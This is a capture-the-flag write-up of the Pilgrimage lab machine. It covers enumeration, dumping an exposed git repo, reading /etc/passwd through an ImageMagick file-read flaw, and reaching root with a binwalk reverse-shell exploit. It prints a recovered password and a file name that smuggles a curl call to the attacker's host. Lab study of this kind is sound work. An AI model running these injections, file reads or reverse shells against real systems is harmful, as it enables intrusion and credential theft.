



### inital enumeration

nmap results

Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


it has a website


it has a register page

its php

so lets go dirb, gobuster

gobuster dir --url http://pilgrimage.htb --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html

gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://pilgrimage.htb -t 50 --append-domain

nothing on the subdomain enumeration

### content upload

all shrunk pictures come on the dashboard

where pictures are stored bu there is no lfi here


lets try and load a php webshell
there is content restriction it seems

php change did not work


tried to forge  php shell across


### other things on website?

and there are other pathways available

/index.php            (Status: 200) [Size: 7621]
/.html                (Status: 403) [Size: 153]
/login.php            (Status: 200) [Size: 6166]
/register.php         (Status: 200) [Size: 6173]
/assets               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/assets/]
/logout.php           (Status: 302) [Size: 0] [--> /]
/vendor               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/vendor/]
/dashboard.php        (Status: 302) [Size: 0] [--> /login.php]
/tmp                  (Status: 301) [Size: 169] [--> http://pilgrimage.htb/tmp/]

but all of them are forbidden now

### git

also just through drib found that .git repo is also available here


but HEAD does not mention much

pip install git-dumper

git-dumper URL DIR

using git-dumper.py

was able to get the source code of the entire thing!

now need to go thorugh the code of the github

emily@pilgrimage.htb>

`exec("/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/" . $upload->getName() . $mime . " -resize 50% /var/www/pilgrimage.htb/shrunk/" . $newname . $mime);

`
this is the function calling it

can we add something in the name itself to make it execute?

"new|curl http://10.10.16.47:8000/iamcurling;".png


### imagemagick vulnerability

IMageMagick library has an arbitrary file read vulnerability

and rce .

tested rce did not work

let check out arbitrary file read

after using the magick_exploit.py get the resultant file and usin 

convert downloaded_image.png result.png

identify -verbose result.png

(~)>>> python3 -c 'print(bytes.fromhex("726f6f743a783a726f6f743---REDACTED--").decode("utf-8"))'


root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin


this works

so we have arbitrary file read

I have created a repo at https://github.com/fanbyprinciple/ImageMagick-lfi-poc 

### lets try and get the user flag

got the password



abigchonkyboi123




### privilege escalation

emily@pilgrimage:~$ netstat -pantu
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0    412 10.10.11.219:22         10.10.16.47:33604       ESTABLISHED -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
udp        0      0 10.10.11.219:49834      8.8.8.8:53              ESTABLISHED - 


no extra ports being occupied

```
0.6 209752 27220 ?        Ss   09:57   0:01 php-fpm: master process (/etc/php/7.4/fpm/php-fpm.conf)
root         765  0.0  0.1 220796  4924 ?        Ssl  09:57   0:00 /usr/sbin/rsyslogd -n -iNONE
root         770  0.0  0.1  13852  7088 ?        Ss   09:57   0:00 /lib/systemd/systemd-logind
root         774  0.0  0.0   2516   780 ?        S    09:57   0:00 /usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/
root         775  0.0  0.0   6816  2320 ?        S    09:57   0:00 /bin/bash /usr/sbin/malwarescan.sh
root         785  0.0  0.0   5844  1760 tty1     Ss+  09:57   0:00 /sbin/agetty -o -p -- \u --noclear tty1 linux
root         802  0.0  0.1  13352  7708 ?        Ss   09:57   0:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root         815  0.0  0.0  56376  1636 ?        Ss   09:57   0:00 nginx: master process /usr/sbin/nginx -g daemon on; master_process on;
www-data     816  0.0  0.1  57300  6364 ?        S    09:57   0:00 nginx: worker process
www-data     817  0.0  0.1  57296  6352 ?        S    09:57   0:02 nginx: worker process
www-data     822  0.0  0.4 210128 19000 ?        S    09:57   0:00 php-fpm: pool www
www-data     824  0.0  0.4 210128 18736 ?        S    09:57   0:00 php-fpm: pool www
root        1642  0.0  0.0      0     0 ?        I    14:09   0:00 [kworker/u256:1-flush-8:0]
root        1672  0.0  0.0      0     0 ?        I    14:17   0:00 [kworker/1:2-events]
root        1695  0.0  0.0      0     0 ?        I    14:21   0:00 [kworker/0:0-cgroup_destroy]
root        1719  0.1  0.0      0     0 ?        I    14:27   0:02 [kworker/0:2-events]
root        1772  0.0  0.0      0     0 ?        I    14:39   0:00 [kworker/1:0-events]
root        1791  0.0  0.0      0     0 ?        I    14:39   0:00 [kworker/u256:2-events_unbound]
root        1832  0.0  0.2  14712  9096 ?        Ss   14:58   0:00 sshd: emily [priv]
emily       1835  0.0  0.2  15164  8604 ?        Ss   14:58   0:00 /lib/systemd/systemd --user
root        1836  0.0  0.0      0     0 ?        I    14:58   0:00 [kworker/u256:0-events_unbound]
emily       1837  0.0  0.0 101236  2516 ?        S    14:58   0:00 (sd-pam
```

nothing specific in ps -aux

but there is a script that runs

```
emily@pilgrimage:~$ cat /usr/sbin/malwarescan.sh
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```

emily@pilgrimage:~$ /usr/local/bin/binwalk

Binwalk v2.3.2

`python exploit_generator.py reverse input.png 10.10.16.47 4444`

after that we moved the file to the diretory
cp binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/binwalk_exploit.png



and got root


